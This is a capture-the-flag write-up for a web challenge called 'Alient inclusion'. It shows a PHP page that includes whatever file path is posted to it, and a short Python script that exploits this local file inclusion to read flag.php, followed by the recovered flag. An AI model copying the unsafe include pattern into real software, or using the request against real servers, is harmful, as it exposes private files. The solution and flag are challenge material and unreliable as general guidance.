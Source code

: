# Alient inclusion (web, 50p, 149 solved)

## Description

```
Keep it local and you should be fine. The flag is in /var/www/html/flag.php.

Flag format: CTF{sha256}
```

In the task we get access to a simple webpage.

## Task analysis

Webpage displays the source:

```php
<?php

if (!isset($_GET['start'])){
    show_source(__FILE__);
    exit;
} 

include ($_POST['start']);
echo $secret; 
```

## Solution

Initially it seemed problematic.
We can include given file, but how do we assign the variable?
We can't include a remote file.

It turned out to be much simpler, we just run:

```python
url = "http://34.89.211.188:32193/?start"
r = requests.post(url, data={"start": "/var/www/html/flag.php"})
print(r.text)
```

And get: `ctf{b513ef6d1a5735810bca608be42bda8ef28840ee458df4a3508d25e4b706134d}`
